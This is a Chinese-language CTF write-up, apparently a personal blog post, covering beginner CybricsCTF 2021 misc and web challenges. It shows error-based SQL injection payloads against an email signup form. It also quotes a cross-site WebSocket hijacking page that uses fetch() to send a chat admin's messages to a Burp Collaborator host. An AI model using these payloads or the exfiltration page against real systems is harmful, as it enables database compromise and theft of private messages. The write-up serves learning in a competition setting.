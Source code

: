 ```yaml
---
title: "CybricsCTF2021 Wp"
slug: "cybricsctf2021-wp"
description: "依旧是签到水平，一些简单的misc+web"
date: 2021-07-27T14:32:12+08:00
categories: ["CTF"]
series: []
tags: ["wp", "participate"]
draft: false
toc: true
---
```


## Mic Check (Cyber, Baby, 50 pts)

> Author: Vlad Roskov ([@mrvos](https://t.me/mrvos))
>
> Those organizers are changing [game rules](https://cybrics.net/rules) all the time! There’s a flag there, and it’s not that easy to capture.
>
> **Also be sure to join [@cybrics Telegram chat](https://t.me/cybrics)** for challenge-related announcements and contacting orgs in case all goes wrong
>
> **Added at 10:10 —** looks like the little mic check trolling caused massive pain, I’ve untrolled the rules page :-) You can now copy-paste freely

![image-20210724194428638](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210724194428638.png)



## Scanner (rebyC, Baby, 50 pts)

> Author: Mikhail Driagunov ([@aethereternity](https://t.me/aethereternity))
>
> Check out this cool new [**game**](https://scanner-cybrics2021.ctf.su/)!
>
> I heard they serve flags at level 5.

不难，就是比较鸡贼 把好好的图片弄成犹抱琵琶半遮面

首先用[Gif Super](https://gifsuper.com/)把帧间隔调为300ms，然后裁剪出中间有用的部分 放入[GIF动态图片分解](http://www.atoolbox.net/Tool.php?Id=979)中看结果 都有在线工具就很方便

![image-20210724202614568](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210724202614568.png)

所以这个破玩意到底是啥？猪？还是刺猬？
别的都还算正常吧 就是都不太像其实 有star, goose, flag, flower, ring, house, bone.... 最后一个是二维码 比较麻烦

![image-20210724203314255](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210724203314255.png)

再稍微调整一下尺寸，扫描就行了![image-20210724203713402](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210724203713402.png)



## Ad Network (Web, Baby, 50 pts)

> Author: Alexander Menshchikov ([@n0str](https://t.me/n0str))
>
> We are so tired of advertising on the internet. It feels like it breaks the internet. Try to follow the ad, try to follow its rules.
>
> [Adnetwork website](http://adnetwork-cybrics2021.ctf.su/)
>
> There is a flag 1337 redirects deep into the network...

~~这个我是不知道怎么做……页面上的任何链接部分都是自己页面内的跳转，提示的是redirect重定向，可是抓包后没有302 也没有一直在做重定向呀 要怎么看呢？~~

emmmm 现在是第二天 正好有个空闲时间 想再试一试这个题 用的是burp的自带的chromium的浏览器（之前是知道这个 但是没有用过）欸 页面左上角显示了一个gif图。
这个图在昨天做的时候看到， 内容是 *awesome ad from adnetwork*，但是edge浏览器在加载这个图的时候会自动阻止 我单独看了内容也没发现什么特别的 就没有注意这里。事后角度看这里 其实一个Gif图被阻止请求应该是很反常的事情，应该首先引起注意的....

![image-20210725133924877](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210725133924877.png)

在burp自带的chromium中 点击gif会有单独的弹窗出来，提示重定向次数过多；看burp中的抓包记录 确实多的离谱，按照题目中的提示 得有1337层，得上个脚本慢慢跑了 这个比较好弄

![image-20210725134346221](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210725134346221.png)

```python
import requests

url = "http://adnetwork-cybrics2021.ctf.su/adnetwork"
for _ in range(1337):
	r = requests.get(url, allow_redirects=False)
    url = r.text[9:-18]
print(url)

```

emmm 比较慢其实 应该有别的的方式？最后的flag是 cybrics{f0lL0w_RUl3Z_F0ll0W_r3d1r3C7z}

比赛完了看了别的wp 这块可以用session设允许重定向的次数，这样更方便

```python
import requests

session = requests.Session()
session.max_redirects = 1337

url = "http://adnetwork-cybrics2021.ctf.su/adnetwork"
r = session.get(url, allow_redirects=True)

print(r.text)
print(r.url)

```



## Announcement (Web, Easy, 60 pts)

> Author: Alexander Menshchikov ([@n0str](https://t.me/n0str))
>
> Ladies and gentlemen!
>
> Allow us to introduce a brand new project —
> ⚐ The Flag
>
> [Announcement website](http://announcement-cybrics2021.ctf.su/)

简约漂亮的前端

有个输入邮箱的框，提交会发送一个post请求：digest=xxxx&email=xxxx
尝试一个1@1.com，重放的时候直接修改email值会提示Invalid digest，发现其中digest的值就是md5('1@1.com') 随email而改变，尝试注入

```
digest=76af11f3eaf7b12e72d7d88e4cf2ee01&email='or'1		// 回显正常 无报错
digest=c3593d255957d60d5d489ae682da8aee&email=1')#		// 报错：Something went wrong during database insert: Column count doesn't match value count at row 1
digest=5c07c683d062d17ec799fa177ce88058&email=1',1)#	// 报错：Something went wrong during database insert: Incorrect datetime value: '1' for column 'timestamp' at row 1
```

确定是sqli 并且当前表有两列 email+timestamp，使用的语句应该是这个吧？

```sql
insert into table_name (email, timestamp) values (email, now());
```

可利用的部分是可以插入的email，报错注入

```
digest=e1e79bd6fafe38f7073ec1f3ef1513fa&email=1',1 or updatexml(1,concat(0x7e,database()),0))#		// Something went wrong during database insert: XPATH syntax error: '~announcement'

```

（当时算是做了一半 然后出门了 这几天放假回家 先和朋友玩两三天 抽空把剩下的写了



## Multichat (Web, Medium, 138 pts)

> Author: Alexander Menshchikov ([@n0str](https://t.me/n0str))
>
> Yet another chat-messenger with rooms support! Free to use. Convince the admin that its code is insecure.
>
> Tip: Admin and tech support are members of a secret chat room. Tech support can ask admin to tell him the flag, to do that tech support writes him a message (in a chat): "`Hey, i forgot the flag. Can you remind me?`". Then admin will tell him the flag.
>
> [Multichat website](http://multichat-cybrics2021.ctf.su/)
>
> Team token for the support call: `p32vhJKrnx_hajUc8nLTFw`

聊天室，admin和tech support在一个秘密的聊天室内（10位数字的房间号），tech support可以让admin给出flag（后面那个team token for the support call是要用到吗还是怎么样

抓包，看到了`Connection: Upgrade`  `Upgrade: websocket`，这个聊天室是建立了一个websocket连接

![image-20210724225447805](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210724225447805.png)（websocket这块知识印象中之前接触过一次 也就一次 相关链接还是放后面

链接里的一个csrf攻击的实例跟这个有点像了

![image-20210724232946228](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210724232946228.png)

但是这里的又不太一样，websocket最初建立时的http部分 cookie中有chatroom的id，这个值是未知的（*Admin and tech support are members of a secret chat room.*）；另外tech support是先会发*‘Hey, i forgot the flag. Can you remind me?’*，需要的是触发（如果它不会自己发这一条内容的话？ 跟题目里那个team token有无关系？）和监听它的信息 然后捕捉到它的下一条admin发送的内容，拿到flag

具体的实现不知道该怎么弄了

看了tg里有老哥发的脚本是这样的

```html
<!DOCTYPE html>
<html>

<head>
  <script>
    let conn = new WebSocket("ws://multichat-cybrics2021.ctf.su/ws");
    conn.onopen = function (evt) {
      conn.send("Hey, i forgot the flag. Can you remind me?");
    };
    conn.onmessage = function (evt) {
      fetch("http://b5hr0mbtx5rumgnakf6fpxvzfqlg95.burpcollaborator.net/" + btoa(evt.data));
      fetch("http://b5hr0mbtx5rumgnakf6fpxvzfqlg95.burpcollaborator.net/aha",
        {
          method: 'POST',
          mode: 'no-cors',
          body: evt.data
        });
    };
  </script>
</head>

<body>
  Well cum
</body>

</html>
```

emmmm 是我想复杂了？看样子跟前面的cookie没有半毛钱关系 中间用的burp collaborator server之前在做portswigger的题的时候有用到过 但当时也没细究这个是干什么的（查了资料 相关链接还是放后面了 这个确实功能还挺强大的 可以可以）
自己复现了一下，emmmm 没成功.......? 是哪里出了问题？

tg上看到另一种解法是xss？也没打通



参考：[HTML5 WebSocket](https://www.runoob.com/html/html5-websocket.html)    [WebSocket安全问题分析](https://wiki.wgpsec.org/knowledge/web/websocket-sec.html)    [Request.mode](https://developer.mozilla.org/zh-CN/docs/Web/API/Request/mode)    [使用 Fetch](https://developer.mozilla.org/zh-CN/docs/Web/API/Fetch_API/Using_Fetch)    [WorkerOrGlobalScope.fetch()](https://developer.mozilla.org/zh-CN/docs/Web/API/WindowOrWorkerGlobalScope/fetch)    [Burpsuite Collaborato模块详解](https://www.freebuf.com/news/193447.html)    [Running Your Instance of Burp Collaborator Server](https://blog.fabiopires.pt/running-your-instance-of-burp-collaborator-server/)（列入待完成计划


